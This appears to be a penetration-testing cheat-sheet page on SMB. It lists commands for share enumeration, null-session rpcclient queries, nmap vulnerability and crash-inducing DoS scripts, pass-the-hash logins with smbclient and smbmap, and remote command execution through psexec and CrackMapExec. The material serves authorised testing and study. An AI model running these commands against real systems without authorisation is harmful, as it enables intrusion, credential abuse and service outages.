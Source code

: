 ```yaml
---
layout: default
title: SMB
parent: Network Services
---
```


# SMB
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Exposed Shares
```shell
smbmap -H <ip>
smbmap -H <ip> -u <username>  # adding anything as the <username> will sometimes return results
enum4linux -v <ip>            # wrapper around tools such as rpcclient that gives lots of info
rpcclient -U <username> <ip>  # "" <username> for null sessions, empty password when prompted
```
- Commands while connected via `rpcclient`:
    - `srvinfo` gives server details
    - `enumdomuser` gives configured users
    - `getdompwinfo` gives domain password policy

---

## Nmap CVE Scans
Safe vulnerability scan
```shell
nmap -p 445 -sT -Pn --script=smb-vuln-ms06-025,smb-vuln-ms07-029,smb-vuln-ms08-067,smb-vuln-ms10-061,smb-vuln-ms17-010,smb-vuln-cve-2017-7494 <ip>
```

Windows 2000 regsvc null pointer crash (_**service crashes if successful**_)
```shell
nmap -p 445 -sT -Pn --script=smb-vuln-regsvc-dos <ip>
```

CVE-2009-3103 DOS check (Windows Vista and some of 7 - _**BSOD if successful**_)
```shell
nmap -p 445 -sT -Pn --script=smb-vuln-cve2009-3103 <ip>
```

CVE-2010-2550 memory corruption check (_**BSOD if successful**_)
```shell
nmap -p 445 -sT -Pn --script=smb-vuln-ms10-054 <ip>
```

---

## Pass-the-hash
List directories
```shell
smbclient -U <user>%<hash> --pw-nt-hash -L <ip>
```
```shell
smbmap -u <user> -p '<NTLM hash>:<LM hash>' -H <ip>
```
- _LM hash is legacy and can usually be anything_
- `--download <path>`: download file
- `-R`: recursively list files

Open specific directory

```shell
smbclient -U <user>%<hash> --pw-nt-hash //<ip>/<directory>
```

---

## Regular usage
```shell
mount -t cifs -o username=<username> //<ip>/ /mnt/smb/  # Mount
smbclient -L //<ip>/ -U <username>%<password>           # List shares
smbclient //<ip>/<directory> -U <username>%<password>   # Interactively browse directory
```

---

## Administrator RCE
psexec
```shell
python psexec.py [domain/]<username>[:password]@<host> [command]  # impacket
psexec.exe -nobanner -accepteula \\<host> -u [domain\]<username> -r [service name] [command]
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
```shell
crackmapexec <ip> -u <username> -p <password> -x <command>
```
Attempts (in order):
- wmiexec (WMI)
- atexec (Task Scheduler)
- smbexec (Creating and running service)

---

## Local Checks
What is exposed?
```powershell
net share          # List shares
net share <share>  # Info about share
```